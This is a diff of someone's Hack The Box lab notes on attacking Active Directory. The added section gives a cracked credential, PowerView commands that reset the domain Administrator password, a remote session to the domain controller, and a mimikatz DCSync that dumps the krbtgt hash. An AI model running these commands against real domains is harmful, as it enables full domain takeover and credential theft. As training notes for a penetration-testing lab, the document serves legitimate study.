

Before and after one commit to koen199/my-htb-scripts, a Markdown page: modules/activive_directory_attacks/exam-part-2.md, the part around the change printed below. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
clean up notes

````diff
--- a/modules/activive_directory_attacks/exam-part-2.md
+++ b/modules/activive_directory_attacks/exam-part-2.md
@@ -465,11 +466,34 @@ Let's see if we can crack it with john:
 ```
 john hash.txt --wordlist=rockyou.txt
 ```
-We cracked it s
+We cracked it... the credentials are `CT059:charlie1`
+Next let's login use Powerview to reset the domain Administrator accounts password:
+
+```
+#Load Powerview
+. .\PowerView.ps1
+$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
+Set-DomainUserPassword -Identity Administrator -AccountPassword $UserPassword
+```
+
+Now we can login using these credentials:
+```
+Enter-PSSession -ComputerName DC01 -Credential INLANEFREIGHT.LOCAL\Administrator
+```
+We have full control over the DC now...
+
+We can also do a DC-sync operation from MS01 and dump the NTLM hash of the krbtgt account:
+```
+./mimikatz.exe
+lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\krbtgt
+```
 
 
 
-#Other shit I tried:
+(if your current user does not have rights to do this but you have credentials to one which can do this visit:https://bloodhound.specterops.io/resources/edges/force-change-password for instrutions)
+
+
+# Other shit I tried:
 
 First export the tickets:
 ```
````
Also changed, not shown: other parts of modules/activive_directory_attacks/exam-part-2.md (+2 -1 lines).
